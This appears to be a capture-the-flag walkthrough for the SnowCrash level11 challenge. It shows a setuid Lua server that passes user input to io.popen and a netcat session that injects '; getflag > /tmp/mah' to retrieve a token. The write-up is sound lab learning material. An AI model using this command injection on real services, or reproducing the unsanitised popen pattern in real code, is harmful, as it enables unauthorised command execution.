 # Flag11

```
level11@SnowCrash:~$ ls -la
total 16
dr-xr-x---+ 1 level11 level11  120 Mar  5  2016 .
d--x--x--x  1 root    users    340 Aug 30  2015 ..
-r-x------  1 level11 level11  220 Apr  3  2012 .bash_logout
-r-x------  1 level11 level11 3518 Aug 30  2015 .bashrc
-rwsr-sr-x  1 flag11  level11  668 Mar  5  2016 level11.lua
-r-x------  1 level11 level11  675 Apr  3  2012 .profile
level11@SnowCrash:~$ cat level11.lua
#!/usr/bin/env lua
local socket = require("socket")
local server = assert(socket.bind("127.0.0.1", 5151))

function hash(pass)
  prog = io.popen("echo "..pass.." | sha1sum", "r")
  data = prog:read("*all")
  prog:close()

  data = string.sub(data, 1, 40)

  return data
end


while 1 do
  local client = server:accept()
  client:send("Password: ")
  client:settimeout(60)
  local l, err = client:receive()
  if not err then
      print("trying " .. l)
      local h = hash(l)

      if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
          client:send("Erf nope..\n");
      else
          client:send("Gz you dumb*\n")
      end

  end

  client:close()
end
level11@SnowCrash:~$
```
And by typing:
```
ps aux
```
I discovered this:
![ps](./20240307230225.png)

The program seems to wait for a password from the user, hash it with `sha1sum` and compare it (the first 40 characters) with the provided hash.

However, since the [`io.popen()`](https://www.lua.org/manual/5.1/manual.html#pdf-io.popen) function executes a command from the command line:
```
prog = io.popen("echo "..pass.." | sha1sum", "r")
```
we can make it execute what we want:
```
level11@SnowCrash:~$ nc localhost 5151
Password: mahmoud ; getflag > /tmp/mah
Erf nope..
level11@SnowCrash:~$ cat /tmp/mah
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
level11@SnowCrash:~$ su level12
Password:
level12@SnowCrash:~$
```